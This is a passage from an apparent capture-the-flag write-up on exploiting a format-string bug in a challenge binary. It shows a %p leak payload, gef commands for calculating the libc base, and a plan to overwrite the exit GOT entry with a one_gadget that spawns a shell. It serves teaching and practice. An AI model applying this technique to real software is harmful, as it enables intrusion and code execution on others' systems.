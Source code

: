 Now that we know we can achieve arbitrary read and write, we can explore how to leverage this to gain a shell.

First, by leaking some pointers from the stack, we observe that the third leaked pointer belongs to `libc`. We can use this to calculate the base address where `libc` is loaded in memory. Additionally, we can see our input as the sixth entry in the leaked data.

```console
Please provide your username:
AAAAAAAA%p.%p.%p.%p.%p.%p
Thanks AAAAAAAA0x7fffffffb2f0.(nil).0x7ffff7d14a37.0x7.0x7ffff7fc9040.0x4141414141414141
```

```console
gef➤  x/i 0x7ffff7d14a37
   0x7ffff7d14a37 <__GI___libc_write+23>:       cmp    rax,0xfffffffffffff000
gef➤  vmmap libc.so.6
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00007ffff7c00000 0x00007ffff7c28000 0x0000000000000000 r-- ./libc.so.6
...
gef➤  p/x 0x7ffff7d14a37-0x00007ffff7c00000
$1 = 0x114a37
```

### Spawning a Shell

At this point, we can also observe that right after the `printf` call, there is a call to the `exit` function. We can exploit this by overwriting the **`GOT`** entry for `exit` using the format string vulnerability. This allows us to redirect execution to a desired location in the process. In this case, we can use a **[`one gadget`](https://github.com/david942j/one_gadget)** from `libc` to spawn a shell, as we already have the address of `libc`.

```console
$ one_gadget libc.so.6
...
0xebcf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
...
```

> I also go into more detail on how the **GOT** and **PLT** work in my write-up for the [**The Librarian**](/posts/tryhackme-trypwnme_one/#the-librarian) challenge from the first room, which you may find helpful.  
{: .prompt-tip }

However, there is a problem: the program only asks for input once. After calling `printf` with our input, it simply exits. We already use this input to leak the address of `libc`, and we cannot simultaneously leak the address and overwrite the `GOT` entry with the `one gadget` because we don't know the `libc` address while sending the payload.

To overcome this, we can check the security settings of the binary and notice that **`PIE`** is disabled, meaning the binary is loaded at the same address every time it runs. This allows us to know the exact addresses of functions within the binary.
